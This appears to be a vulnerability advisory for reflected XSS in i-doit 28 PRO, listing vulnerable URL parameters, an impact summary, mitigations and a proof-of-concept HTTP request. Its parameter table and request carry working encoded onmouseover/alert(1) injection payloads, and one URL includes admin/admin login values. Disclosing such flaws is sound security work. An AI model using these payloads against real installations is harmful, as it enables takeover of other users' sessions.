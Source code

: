 # CVE-2024-?

## Vulnerability Details:

- **CVSS Score:** 6.8 HIGHMEDIUM (CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:L/A:L)

- **Affected Component:** [I-DOIT](https://www.i-doit.com) parameters:

    | Parameter                    | Description                                       | URL (PoC)        |
    |------------------------------|---------------------------------------------------|------------|
    | id                           | Identifier parameter                              | /?moduleID=7&id=s3j5b%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22kmc6x&mNavID=2&lang=de |
    | lang                         | Language parameter                                | /?mNavID=2&lang=gui4c%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22ku6le&tenant_id=1  | 
    | mNavID                       | Navigation identifier parameter                   | /?mNavID=aqaal%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22el125&lang=de&tenant_id=1 |
    | name (arbitrarily supplied) | Name of an arbitrarily supplied URL parameter     | /?navMode=&sort=&dir=&id=&navPageStart=&navTemplateDetailView=&template=&useTemplate=&popupReceiver=&_csrf_token=1698.wxfibOhTA0_Y5hIPtKFSbmcrrEAO7zOoiGTUmvtApXU.omW1PKBrZCG0k1RV8uJqNy5Gny1qvwv7-gmV45d30RqbWowurgFJHomqIg&HTTP_GOTO=&login_username=admin&login_password=admin&login_submit=&uo703%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22vnuwwxvu6hf=1 |
    | pID                          | ID parameter                                      | /?moduleID=7&pID=bzon8%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22bsv0h |
    | treeNode                     | Tree node parameter                               | /?moduleID=1021&treeNode=1021360494'%3balert(1)%2f%2f883&pID=type-config |
    | type                         | Type parameter                                    | /?viewMode=1101&type=cehtj%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22g3asdsxian9&view=object&mNavID=2&lang=de&navMode=&sort=&dir=&id=&navPageStart=&navTemplateDetailView=&template=&useTemplate=&popupReceiver=&_csrf_token=&q=dDLqSW&submit_isys_form=&C_VISUALIZATION_OBJ_SELECTION=dDLqSW&C_VISUALIZATION_OBJ_SELECTION__HIDDEN=&C_VISUALIZATION_OBJ_SELECTION__CONFIG=%7B%22type%22%3A%22f_popup%22%2C%22p_strPopupType%22%3A%22browser_object_ng%22%2C%22name%22%3A%22C_VISUALIZATION_OBJ_SELECTION%22%2C%22disableInputGroup%22%3Atrue%2C%22p_bDisableDetach%22%3Atrue%2C%22p_bInfoIconSpacer%22%3A0%2C%22p_strValue%22%3A%22%22%2C%22p_strPlaceholder%22%3A%22Bitte+Objekt+ausw%5Cu00e4hlen%22%2C%22callback_accept%22%3A%22idoit.callbackManager.triggerCallback%28%27visualization-init-explorer%27%29%3B%22%2C%22nowiki%22%3A1%2C%22disablePrimaryConditions%22%3Afalse%2C%22disableSecondaryConditions%22%3Afalse%2C%22disableCustomConditions%22%3Afalse%2C%22use_auth%22%3Afalse%2C%22p_onClick%22%3A%22if+%28%21this.getValue%28%29.blank%28%29%29+%7Bthis.writeAttribute%28%27placeholder%27%2Cthis.readAttribute%28%27data-last-value%27%29%29.setValue%28%27%27%29%3B%7D%22%2C%22p_onBlur%22%3A%22if+%28this.getValue%28%29.blank%28%29%29+%7Bthis.setValue%28this.readAttribute%28%27data-last-value%27%29%29%3B%7D%22%2C%22p_strSuggest%22%3A%22object-browser%22%2C%22p_strSuggestView%22%3A%22C_VISUALIZATION_OBJ_SELECTION__VIEW%22%2C%22p_strSuggestHidden%22%3A%22C_VISUALIZATION_OBJ_SELECTION__HIDDEN%22%2C%22p_strSuggestParameters%22%3A%22parameters%3A+%7B%5C%22typeFilter%5C%22%3Anull%2C%5C%22catFilter%5C%22%3Anull%2C%5C%22typeBlacklist%5C%22%3Anull%2C%5C%22cmdb_filter%5C%22%3Anull%2C%5C%22customFilters%5C%22%3Anull%7D%2CselectCallback%3A+function%28view%2C+li%29+%7Bview.writeAttribute%28%27data-last-value%27%2C+li.readAttribute%28%27title%27%29%29%3Bidoit.callbackManager.triggerCallback%28%27visualization-init-explorer%27%29%3B%7D%22%2C%22checkRight%22%3A%22isys_auth%3A%3AEDIT%22%2C%22p_additional%22%3A%22+data-hidden-field%3D%5C%22C_VISUALIZATION_OBJ_SELECTION__HIDDEN%5C%22+data-last-value%3D%5C%22%5C%22%22%2C%22id%22%3A%22C_VISUALIZATION_OBJ_SELECTION__VIEW%22%7D&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strPopupType%5D=browser_object_ng&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_arData%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strTable%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strValue%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bmultiselect%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Btype%5D=f_popup&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strPopupType%5D=visualization_itservice_selection&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_arData%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strTable%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strValue%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bmultiselect%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Btype%5D=f_popup&C_VISUALIZATION_PROFILE=1&SM2__C_VISUALIZATION_PROFILE%5Bp_strPopupType%5D=visualization_profile&SM2__C_VISUALIZATION_PROFILE%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_PROFILE%5Bp_arData%5D=&SM2__C_VISUALIZATION_PROFILE%5Bp_strTable%5D=&SM2__C_VISUALIZATION_PROFILE%5Bp_strValue%5D=&SM2__C_VISUALIZATION_PROFILE%5Bmultiselect%5D=&SM2__C_VISUALIZATION_PROFILE%5Btype%5D=tree&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strPopupType%5D=visualization_export&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_arData%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strTable%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strValue%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bmultiselect%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Btype%5D=f_popup&C_VISUALIZATION_SERVICE_FILTER=-1&SM2__C_VISUALIZATION_SERVICE_FILTER%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_SERVICE_FILTER%5Bp_strTable%5D=&SM2__C_VISUALIZATION_SERVICE_FILTER%5Bp_arData%5D=a%3A6%3A%7Bi%3A-1%3Bs%3A1%3A%22-%22%3Bi%3A1%3Bs%3A7%3A%22Level+1%22%3Bi%3A2%3Bs%3A7%3A%22Level+2%22%3Bi%3A3%3Bs%3A7%3A%22Level+3%22%3Bi%3A4%3Bs%3A7%3A%22Level+4%22%3Bi%3A5%3Bs%3A7%3A%22Level+5%22%3B%7D&SM2__C_VISUALIZATION_SERVICE_FILTER%5Btype%5D=f_dialog&LogbookCommentary= |
    | view                         | View parameter                                    | /?viewMode=1101&type=tree&view=object38032'%3balert(1)%2f%2f845&mNavID=2&lang=en |

- **Vulnerability Type:** Cross-site scripting Reflected (XSS)

- **Impact:** If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can:
  - Perform any action within the application that the user can perform.
  - View any information that the user is able to view.
  - Modify any information that the user is able to modify.
  - Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.

- **Exploitability:** The vulnerability can be exploited by crafting specifically malicious queries and submitting them through the vulnerable parameters.

- **Affected Versions:** Tested only in [I-DOIT](https://www.i-doit.com) 28 PRO

- **Details:** A Reflected Cross-Site Scripting (XSS) vulnerability occurs when user input is not properly sanitized by a web application and is then echoed back to the user's browser without adequate encoding. This allows an attacker to inject and execute malicious scripts within the context of the victim's session.

- **Mitigation:** Preventing cross-site scripting isn't a simple fix that you can turn on or off. Depending on the web application, protection strategies will differ. That said, it's important to consider the following strategies for how to mitigate cross-site scripting.

  - **Whenever possible, prohibit HTML code in inputs.** Preventing users from posting HTML code into form inputs is a straightforward and effective measure.
  - **Validate inputs.** If you're going to accept form inputs, validating the data to ensure it meets specific criteria will be helpful
  - **Secure your cookies.** Setting rules for your web applications defining how cookies are handled can prevent XSS and even block JavaScript from accessing cookies.
  - **Sanitize data.** Similar to validation, sanitizing occurs after data has been posted but before it is executed. Look for online tools like HTMLSanitizer to sanitize HTML code online for XSS vulnerabilities.
  - **Use a web application firewall (WAF).** Rules can be created on a WAF to specifically address XSS by blocking abnormal server requests. A robust WAF should be a key component of your organization's security strategy, as it can also prevent SQL injection attacks, distributed denial-of-service attacks and other common threats.

## Proof of Concept (PoC):

An attacker could craft a malicious request to exploit the vulnerability:

```HTTP Request
GET /?moduleID=7&id=s3j5b%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22kmc6x&mNavID=2&lang=de HTTP/1.1
Host: 192.168.1.46
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: PHPSESSID=3e9a5hs6b6rbcmv77aipbkhddu
Upgrade-Insecure-Requests: 1
Referer: http://192.168.1.46/?moduleID=7&id=5047
Sec-CH-UA: ".Not/A)Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
Sec-CH-UA-Platform: Windows
Sec-CH-UA-Mobile: ?0
Content-Length: 0
```

![image](https://github.com/offensive-security-pwncat/CVE-2024-XSS/blob/main/photo_2024-02-25%2011.00.24.jpeg?raw=true)

## Recommendations:

- **Patch:** Develop and deploy a patch or update that addresses the XSS Reflected vulnerabilities in the affected parameters.

- **Education:** Provide training and resources to developers on secure coding practices, emphasizing the importance of input validation and preventing XSS Refelcted vulnerabilities.


